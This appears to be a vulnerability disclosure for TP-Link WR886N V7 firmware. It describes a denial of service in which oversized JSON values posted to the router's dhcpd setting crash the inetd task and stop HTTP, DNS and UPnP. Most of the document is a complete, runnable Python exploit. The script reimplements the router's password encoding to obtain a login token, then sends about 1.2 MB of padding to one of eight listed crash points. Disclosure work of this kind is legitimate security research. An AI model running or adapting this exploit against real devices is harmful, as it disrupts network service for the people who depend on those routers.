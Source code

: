 # TP-Link WR886N V7 Inetd Task Dos  

**Vender**：TP-Link

**Firmware version**: 1.1.0

**Hardware version**: TL-WR886N 7.0

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.tp-link.com.cn/

**Hardware Link**:http://www.tp-link.com.cn/product_397.html

## Vul detail ##
In the router module `dhcpd`, user can setup dhcpd parameters with http post request. An normal request looks like below.

![](normal_post_request.png)

After setup dhcpd parameters, `dhcpd` module will save data to config file.

![](normal_config_file.png)

If we send request with long value in specific json key, it will overflow and break the `dhcpd` module config file. 

If the string long enough it will also crash the inetd task, this will stop most network services, such as http, dns and upnp.    
  

![](inetd_crash.png)

## POC

```python
import requests


def security_encode(a):
    c = "RDpbLfCPsJZ7fiv"
    b = "yLwVl0zKqws7LgKPRQ84Mdt708T1qQ3Ha7xv3H7NyU84p21BriUWBU43odz3iP4rBL3cD02KZciXTysVXiV8ngg6vL48rPJyAUw0HurW20xqxv9aYb4M9wK1Ae0wlro510qXeU07kV57fQMc8L6aLgMLwygtc0F10a0Dg70TOoouyFhdysuRMO51yY5ZlOZZLEal1h0t9YQW0Ko7oBwmCAHoic4HYbUyVeU3sfQ1xtXcPcf1aT303wAQhv66qzW"
    d = ''
    e = f = g = h = k = 187
    m = 187
    f = len(a)
    g = len(c)
    h = len(b)
    if f > g:
        e = f
    else:
        e = g

    for i in range(e):
        m = k = 187
        if i >= f:
            m = ord(c[i])
        elif i >= g:
            k = ord(a[i])
        else:
            k = ord(a[i])
            m = ord(c[i])
        d += b[(k ^ m) % h]
    return d


def get_token(password):
    print(security_encode(password))
    login_url = 'http://192.168.1.1/'
    login_data = {"method": "do",
                  "login": {
                      "password": security_encode(password)
                  }
                  }
    rsp = requests.post(login_url, json=login_data)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        return rsp_json['stok']
    # set password
    elif rsp_json['error_code'] == -40401:
        set_password = {
            "method": "do",
            "set_password": {
                "password": security_encode(password)
            }
        }
    rsp = requests.post(login_url, json=set_password)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        # get token again
        return get_token(password)


password = 'password'
burp0_url = "http://192.168.1.1/stok=%s/ds" % get_token(password)
burp0_headers = {"Accept": "application/json, text/javascript, */*; q=0.01", "Origin": "http://192.168.1.1", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36", "Content-Type": "application/json; charset=UTF-8", "Referer": "http://192.168.1.1/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.6,ko;q=0.5", "Connection": "close"}

burp0_json = {
  "dhcpd": {
    "udhcpd": {
      "enable": 1,
      "auto": 0,
      "pool_start": "192.168.1.100",
      "pool_end": "192.168.1.199",
      "lease_time": 7200,
      "gateway": "0.0.0.0",
      "pri_dns": "0.0.0.0",
      "snd_dns": "0.0.0.0"
    }
  },
  "method": "set"
}

buff_count = int(1.0 * 1024 * 1204)
burp0_json['dhcpd']['udhcpd']['enable'] = "%s" % ('A' * buff_count)  # crash point 1
# burp0_json['dhcpd']['udhcpd']['auto'] = "%s" % ('A' * buff_count)  # crash point 2
# burp0_json['dhcpd']['udhcpd']['lease_time'] = "%s" % ('A' * buff_count)  # crash point 3
# burp0_json['dhcpd']['udhcpd']['pool_start'] = "%s" % ('A' * buff_count)  # crash point 4
# burp0_json['dhcpd']['udhcpd']['pool_end'] = "%s" % ('A' * buff_count)  # crash point 5
# burp0_json['dhcpd']['udhcpd']['gateway'] = "%s" % ('A' * buff_count)  # crash point 6
# burp0_json['dhcpd']['udhcpd']['pri_dns'] = "%s" % ('A' * buff_count)  # crash point 7
# burp0_json['dhcpd']['udhcpd']['snd_dns'] = "%s" % ('A' * buff_count)  # crash point 8


rsp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, timeout=3)
print(rsp.content)

```